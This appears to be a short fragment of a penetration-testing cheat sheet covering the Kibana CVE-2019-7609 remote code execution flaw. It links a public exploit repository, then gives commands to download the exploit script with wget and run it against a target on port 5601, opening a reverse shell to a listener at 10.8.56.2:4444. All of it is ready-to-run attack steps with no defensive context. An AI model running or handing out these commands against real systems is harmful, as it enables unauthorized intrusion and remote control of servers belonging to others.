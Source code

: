 - kibana
    - [CVE-2019-7609] 
        - https://github.com/LandGrey/CVE-2019-7609
        - wget https://raw.githubusercontent.com/LandGrey/CVE-2019-7609/master/CVE-2019-7609-kibana-rce.py
        - python2 CVE-2019-7609-kibana-rce.py -h
        - python2 CVE-2019-7609-kibana-rce.py -u http://target.ip:5601 -host 10.8.56.2 -port 4444 --shell

